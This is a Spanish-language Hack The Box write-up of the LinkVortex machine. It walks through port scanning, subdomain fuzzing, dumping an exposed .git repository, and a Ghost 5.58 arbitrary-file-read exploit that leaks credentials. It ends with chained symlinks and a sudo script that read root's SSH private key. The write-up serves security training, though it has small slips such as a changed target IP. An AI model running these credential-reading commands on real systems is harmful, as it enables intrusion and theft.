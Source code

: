 ```yaml
---
title: HTB LinkVortex Writeup
date: 2025-04-19 10:45:00 -05:00
author: retxus
categories: [HTB, Linux]
tags: [Linux, http, Arbitrary File Read, Information Leakage, Sumlinks - Read files, Exposure .git]
comments: false
image:
  path: /assets/img/HTB-LinkVortex/LinkVortex.png
---
```


Muy buenas con todos, el día de hoy voy a resolver la máquina `LinkVortex` de HTB, espero que el procedimiento sea de su agrado y fácil de comprender.

## Reconocimiento

Primero vemos si tenemos conexión con la máquina y, de paso, gracias al `ttl` identificamos ante el tipo de máquina que estamos, en `linux` este suele ser de 64 y en `windows` de 128.

```bash
ping -c 1 10.10.11.47
PING 10.10.11.47 (10.10.11.47) 56(84) bytes of data.
64 bytes from 10.10.11.47: icmp_seq=1 ttl=63 time=107 ms

--- 10.10.11.47 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 106.759/106.759/106.759/0.000 ms
```

Vemos que el `ttl` de la máquina es de `63`, el cual está próximo a `64` por ende nos encontramos ante una máquina `Linux`.

Ahora vamos a identificar los puertos abiertos dentro de la máquina, los invito a usar el siguiente `script` hecho en `bash`.

```bash
#!/bin/bash

GREEN="\e[32m"
RED="\e[31m"
RESET="\e[0m"

IP="$1"

if [ -z "$IP" ]; then
  echo "Uso: $0 <IP>"
  exit 1
fi

TEMP_FILE=$(mktemp)

echo -e "${GREEN}[+] Escaneando todos los puertos abiertos... ${RESET}"

nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn "$IP" -oG "$TEMP_FILE"

# Extraer los puertos abiertos
PORTS=$(grep -oP '\d+/open' "$TEMP_FILE" | awk -F'/' '{print $1}' | tr '\n' ',' | sed 's/,$//'; echo)

rm "$TEMP_FILE"

if [ -z "$PORTS" ]; then
  echo -e "${RED}[-] No se encontraron puertos abiertos.${RESET}"
  exit 1
fi

echo -e "\n${GREEN}[+] Escanenado servicios en los puertos: $PORTS. ${RESET}\n"

nmap -sCV -p"$PORTS" "$IP" -oN target

echo -e "\n${GREEN}[+] Escano completado. Resultados en 'target'.${RESET}\n"
```

De preferencia es mejor usar este `script` como `root`, ya que algunos parámetros de `nmap`, requieren de privilegios elevados. Esto al final nos va a generar un archivo `target` que contiene la información de los puertos abiertos dentro de la máquina.

```bash
sudo ./scan.sh 10.10.11.44
```

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:f8:b9:68:c8:eb:57:0f:cb:0b:47:b9:86:50:83:eb (ECDSA)
|_  256 a2:ea:6e:e1:b6:d7:e7:c5:86:69:ce:ba:05:9e:38:13 (ED25519)
80/tcp open  http    Apache httpd
|_http-title: Did not follow redirect to http://linkvortex.htb/
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos que tenemos el puerto `22 - ssh` y `80 - http`, vemos que en el servidor `web` se aplica `resolución DNS`, y por ende nuestra máquina no sabe qué es `linkvortex.htb`, así que lo agregamos al `/etc/hosts`, para que sepa dónde resolver

```bash
127.0.0.1   localhost
::1     localhost
127.0.0.1   machinename.localhost   machinename
10.10.11.47    linkvortex.htb
```

### Analizando la web

Si vemos la `web` tenemos lo que parece ser un sistema para crear `blogs`. Vemos qué como `CMS` usa `ghost` y se nos muestra la versión (5.58). Hay una vulnerabilidad asociada a esa versión, pero se necesitan credenciales y por el momento no tenemos. En `http://linkvortex.htb/ghost` tenemos un apartado para iniciar sesión, pero no parece ser vulnerable.

Sin embargo, como hay un botón para restablecer la contraseña, podríamos probar usuarios que sean válidos; uno de ellos, por ejemplo, es `admin@linkvortex.htb`

### Enumeración de subdominios

Vamos a ver si logramos encontrar algún subdominio asociado a la `web`.

```bash
ffuf -c -t 100 -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H "HOST: FUZZ.linkvortex.htb" -u http://linkvortex.htb/ -fl 8
```

Logramos obtener uno `dev.linkvortex.htb`, así que lo agregamos al `/etc/passwd` para ver qué contiene. El sitio no tiene nada fuera de lo común, pero si buscamos directorios encontramos un `.git`.

## Dumpear .git

Para traer el proyecto `.git` a nuestra máquina, podemos hacer uso de [GitHack](https://github.com/lijiejie/GitHack.git){:target="_blank"}.

```bash
python GitHack.py http://dev.linkvortex.htb/.git
```

Nos trajo lo que parece ser el proyecto de la `web` principal, hay un archivo, `Dockerfile.ghost` por ende aquí podemos asumir que el servidor `web` está corriendo en un contenedor.

## Fuga de información

Algo interesante en el archivo de `docker` es que se muestra la ruta de un archivo de configuración que está en formato `json`. Si lo podríamos ver sería interesante. También en `/dev.linkvortex.htb/ghost/core/test/regression/api/admin`, tenemos un archivo `.js` y dentro lo que parece ser una credencial.

![](/assets/img/HTB-LinkVortex/1_LinkVortex.png)

Podríamos tratar de autenticarnos haciendo uso de esa credencial como, `admin` en `http://linkvortex.htb/ghost`, vemos que es posible. Indagando por la página no vemos nada interesante; sin embargo, recordemos que para la versión de `ghost` que están usando hay una vulnerabilidad de tipo `Arbitrary File Read`.

## Arbitrary File Read

Buscando un poco me encuentro con [esto](https://github.com/0xDTC/Ghost-5.58-Arbitrary-File-Read-CVE-2023-40028){:target="_blank"}. Básicamente, lo que hace el `script`, es autenticarse en la `web`, luego crea un archivo `.zip` que contiene un link simbólico, que apunta al archivo que nosotros queremos ver. Para hacer uso del `script`, debemos cambiar un par de líneas en el código, en `$GHOST_URL/ghost/api/v3/admin/` eliminamos `v3` quedando así `$GHOST_URL/ghost/api/admin/`, y eliminamos la cabecera `-H "Accept-Version: v3.0" \`. Luego vamos a ver si logramos leer archivos.

![](/assets/img/HTB-LinkVortex/2_LinkVortex.png)

Vemos que podemos leer archivos de la máquina. Viendo ese archivo `/etc/passwd`, ya podemos estar más seguros de que estamos ante un contenedor. Bueno, podríamos tratar de leer el `.json` que se muestra en el `Dockerfile`.

## Ganando acceso

Vemos que se pudo. Algo interesante aquí, es que se muestra un usuario y su credencial.

![](/assets/img/HTB-LinkVortex/3_LinkVortex.png)

Haciendo uso de esa credencial, tratamos de autenticarnos por `ssh` con ese usuario y vemos que se pudo y logramos ver la primera parte de la máquina.

![](/assets/img/HTB-LinkVortex/4_LinkVortex.png)

## Escalada de privilegios

El usuario en cuestión, dispone de cierto privilegio a nivel de `root`, puede ejecutar un `script` escrito en `bash`. Básicamente, lo que hace es que cuando le pasamos una foto en formato `.png`, y este apunta a un link simbólico, siempre que `CHECK_CONTENT` esté en `true` y que en link simbólico no apunte a `/etc` o `/root`, este nos mostrará su contenido.

Bueno algo que se puede hacer para saltarnos estas restricciones es setear de antes `CHECK_CONTENT` a `true`, ya que por defecto está en `false` y hacer que el link simbólico apunte a otra ruta de forma enmascarada. Primero creamos un link simbólico que apunte a la `id_rsa` de `root`

```bash
ln -s -f /root/.ssh/id_rsa evil.txt
```

Luego otro link simbólico que apunte a ese archivo `evil.txt`

```bash
ln -s -f /home/bob/evil.txt evil.png
```

Por último seteando `CHECK_CONTENT` a `true` vemos el contenido de la imagen.

```bash
CHECK_CONTENT=true sudo /usr/bin/bash /opt/ghost/clean_symlink.sh evil.png
```

Y ya guardamos esa clave en un archivo `id_rsa` le damos el permiso `600`, nos conectamos como `root` a la máquina y vemos la última parte.

![](/assets/img/HTB-LinkVortex/5_LinkVortex.png)
